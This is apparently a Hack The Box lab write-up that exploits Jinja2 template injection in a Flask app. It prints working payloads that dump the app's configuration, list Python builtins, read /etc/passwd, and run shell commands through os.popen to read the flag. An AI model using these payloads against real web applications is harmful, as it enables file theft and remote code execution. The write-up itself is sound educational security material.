







# Hack The Box - SSTI Exploitation Jinja2 Flask | Write-up

> **Platform:** Hack The Box &nbsp;•&nbsp; **Category:** Web - Server-Side Template Injection &nbsp;•&nbsp; **Difficulty:** Easy
>
> **Target:** `154.57.164.70:32187` &nbsp;•&nbsp; **Time taken:** ~15 mins
>
> **Author:** Jithin Jelson

---

## Introduction

For this lab in Hack The Box we are required to achieve remote code execution on our target machine. We have previously identified that the template engine used by the web server was Twig, in this lab we are exploiting a Jinja template engine.

---

## Assessment Overview



---

## What I Learned

- How to confirm a Jinja2 SSTI vulnerability in a Flask web application and use it as a code execution primitive.
- Using `{{ config.items() }}` to dump the application configuration, source details, and secret keys.
- Why the `__builtins__` object matters, since it exposes `import` and `open` which open the door to file reads and command execution.
- Reading arbitrary files such as `/etc/passwd` through the built-in `open` function to prove local file inclusion.
- Escalating from information disclosure to full remote code execution with `__import__('os').popen()`.
- That a single SSTI in Jinja2 can be chained from config disclosure, to file read, all the way to RCE and flag capture.

---

## Reconnaissance: Visiting the Target

First we can visit our target ip address.


*Figure 1 - The target web application served by the Flask app.*

---

## Extracting Configuration with config.items()

Since we are already aware that this server uses Jinja2 in a Flask web application, we can use code in our vulnerable area to extract as much useful information as possible. Firstly we can use `{{ config.items() }}` to obtain information about the web application, such as configuration details, the source code of the web app and secret keys.

```
{{ config.items() }}
```

In this case we have no secret keys, but if we were to obtain some we could use them for further attacks later on.


*Figure 2 - Output of {{ config.items() }} showing the application configuration.*

---

## Enumerating Built-in Functions

Now we can execute some Python code to learn more information about the web application's source code. We will use the following SSTI payload to help see all of our built-in functions:

```
{{ self.__init__.__globals__.__builtins__ }}
```

We can see all the built-in functions. Most importantly we can see that import is available, which is useful to us as we can use this later for a remote code execution. We also have an open function which may allow us to access certain files, we can try to access the /etc/passwd using the built-in function open.


*Figure 3 - The __builtins__ object exposing import and open.*

---

## Local File Inclusion: Reading /etc/passwd

```
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
```

It seems that we are able to get local file inclusion.


*Figure 4 - Contents of /etc/passwd read through the open function.*

---

## Remote Code Execution with os.popen

Now we can put our previous functions to use. We can use the import function to use the popen function, as the popen function is not already imported in the library.

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

It seems it has worked. Now we can navigate to where our flag is, after using ls we can see it is in the same directory so our final command is below.


*Figure 5 - Remote code execution confirmed with the id command.*

---

## Capturing the Flag

> Achieve remote code execution and read the flag from the target.

**Answer:** `see Figure 6`

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read() }}
```


*Figure 6 - The flag read from flag.txt via os.popen.*
